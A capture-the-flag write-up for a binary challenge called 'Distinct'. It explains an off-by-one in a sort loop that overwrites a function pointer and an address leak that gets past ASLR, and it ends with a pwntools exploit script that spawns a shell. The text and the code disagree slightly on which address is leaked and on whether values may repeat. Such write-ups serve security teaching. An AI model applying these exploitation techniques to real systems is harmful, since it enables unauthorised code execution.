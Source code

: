 # Distinct

We are given code with a function that calls `/bin/sh`. Because
we do not to think any further, we want to call this function.

Looking around for vulnerabilities, we notice an off-by-one in the `sort` function:

```c
    // this should be i < len!
    for(int i = 0; i <= len; i++) {
        for(int j = i; j <= len; j++) {
```

So the `sort` function twiddles with one more long value, which we call `nums[16]`. Very conveniently, the thing that happens to be at the same memory address as `nums[16]` is `handler`, a a pointer to a function that gets called once we say we don't want to enter again. 
Normally, `handler` would be one of `&unique` or `&repeated`. But we want to have Fun, so let's figure out how to make it `&win`.

It turns out that since there's no way `&win` is located below memory address 16, asking it to sort
```
[&win, 0, 1, 2, 3, ..., 15]
```
will set `handler = nums[16] = &win`.

> The values cannot repeat, since doing so would cause the handler to be set to `&repeated`, and we cannot stop that, nor control `handler` again after that part.

So all that's left is to find the value of `&win`. Well, ASLR is enabled, so we can't just go into `gdb` or `readelf` or `nm` and get an address. But notice that initially, `handler` is set to `&unique`, and if we sort
```
[some set of 16 very high values]
```
then since `&unique` is surely below these, we can force `nums[0] = &unique`. Since we get `nums[0:15]` back at the end, we have essentially leaked the address of `unique`. From there, we know that the offset between `unique` and `win` is the same, so we just have to find the offset from the binary we're given, and calculate the value of `&win`.

Here is exploit code, using `pwntools`.

```python
from pwn import *

r = process("./distinct.o")

def send_number(num):
	r.clean()
	r.send((str(num) + "\n").encode())

for i in range(16):
	send_number(2**64 - 1)

# After calling this,
# r is expecting a Y/N
def get_array():
	lines = r.recv().decode().split("\n")
	return [*map(int, lines[1].split())]


arr = get_array()
repeated_addr = arr[0]

win_addr = repeated_addr + 0x200

r.send("Y\n".encode())

send_number(win_addr)
for i in range(15):
	send_number(0)

r.interactive()
```